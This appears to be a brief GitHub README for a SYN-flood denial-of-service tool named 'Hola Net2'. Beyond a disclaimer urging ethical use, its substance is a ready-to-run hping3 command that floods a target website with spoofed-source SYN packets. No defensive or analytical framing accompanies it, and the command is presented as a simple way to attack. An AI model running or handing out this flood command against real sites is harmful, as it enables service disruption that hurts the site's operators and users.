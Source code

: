 Hola Net2 DDOs ATTACK SYN FLood Oriented :D

DO NOT USE THIS CODE TO ATTACK PEOPLE USE IT ETHICALY !!

A simply way to send a Syn flood too is having Hping3 tool and lunch this Command:

      sudo hping3 --flood --rand-source <your target website>

